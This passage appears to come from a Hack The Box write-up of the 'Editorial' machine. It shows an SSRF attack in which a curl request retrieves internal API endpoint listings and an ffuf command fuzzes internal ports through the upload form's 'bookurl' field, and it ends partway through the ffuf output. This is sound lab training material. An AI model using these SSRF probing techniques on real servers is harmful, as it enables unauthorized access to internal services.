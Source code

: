 ```c
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 16 Jun 2024 07:05:51 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 51

static/uploads/69d06215-fefa-43d2-bc34-9c0f1b6763b0
```

We created a payload to access `http://127.0.0.1:5000` and used `curl` to access the `file` which was generated by the `web application` to get access to the `API endpoint`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Editorial/serve]
└─$ curl http://editorial.htb/static/uploads/69d06215-fefa-43d2-bc34-9c0f1b6763b0
{"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}
```

#### Finding the API endpoint using ffuf

Another shout-out to `Yeeb` for bringing up this well crafted payload to be used with `ffuf`.

```c
┌──(kali㉿kali)-[~]
└─$ seq 1 10000 | ffuf -w - -u http://editorial.htb/upload-cover -X POST -H "Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylUeVtv36vebZPACI" -d '------WebKitFormBoundarylUeVtv36vebZPACI            
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ
------WebKitFormBoundarylUeVtv36vebZPACI
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarylUeVtv36vebZPACI--' -fr "unsplash_photo"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://editorial.htb/upload-cover
 :: Wordlist         : FUZZ: -
 :: Header           : Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylUeVtv36vebZPACI
 :: Data             : ------WebKitFormBoundarylUeVtv36vebZPACI            
Content-Disposition: form-data; name="bookurl"

```